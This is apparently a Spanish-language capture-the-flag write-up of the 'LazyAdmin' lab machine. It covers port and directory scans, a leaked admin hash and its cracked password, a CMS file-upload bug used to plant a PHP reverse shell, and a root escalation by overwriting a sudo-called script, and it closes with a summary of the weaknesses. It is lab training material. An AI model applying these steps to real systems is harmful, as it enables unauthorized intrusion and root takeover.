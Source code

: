 # LazyAdmin
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```
## Enum
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/server-status (Status: 403)
```
#### Content
##### Gbusting 2
```
/_themes (Status: 301)
/as (Status: 301) <- Login
/attachment (Status: 301)
/changelog.txt (Status: 200)
/images (Status: 301)
/inc (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/license.txt (Status: 200)
```
##### Changelog.txt
En este archivo podemos ver que la version del CMS es la 1.5.0
##### Inc
Dentro de inc podemos encontrar un backup de sql donde tenemos user y pass de la web
```
admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb
```

## Exploit
Existe un authenticated arbitrary file upload para esta version del CMS, con lo que tenemos podemos ejecutarlo y subir una web shell
* 1. Crackeamos el hash
```
Password123
```
* 2. Nos logeamos en el endpoint de /as
* 3. Nos vamos al media center
* 4. Subimos una revshell php con la terminación php5
* 5. Vamos a /content/attachment
* 6. Enjoy RCE como www-data

## Privesc
```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
Veamos que hace ese script
`` `
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Hace referencia a un script llamado copy.sh al que si podemos cambiar
```
echo '/bin/bash' > /etc/copy.sh
```
Y ya solo nos quedaria hacer 
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
Y ya tendriamos shell como root

# Analisis de la intrusión
### Sensible data exposure
Un backup de la db con las credenciales del administrador quedo expuesto, esto nos permitio tomar el control del servicio web, ya que la contraseña encontrada fue facilmente crackeable
### Vulnerable CMS version
El CMS en cuestión permitia subir archivos php cambiando la extension a php5, esto nos permitio subir una reverse shell al servidor y ganar RCE como www-data
### Weak permisions
El usuario www-data podia leer archivos dentro de la carpeta de itguy ademas de editar scripts a los que podia llamar de manera privilegiada, esto hizo que elevaramos privilegios hasta root
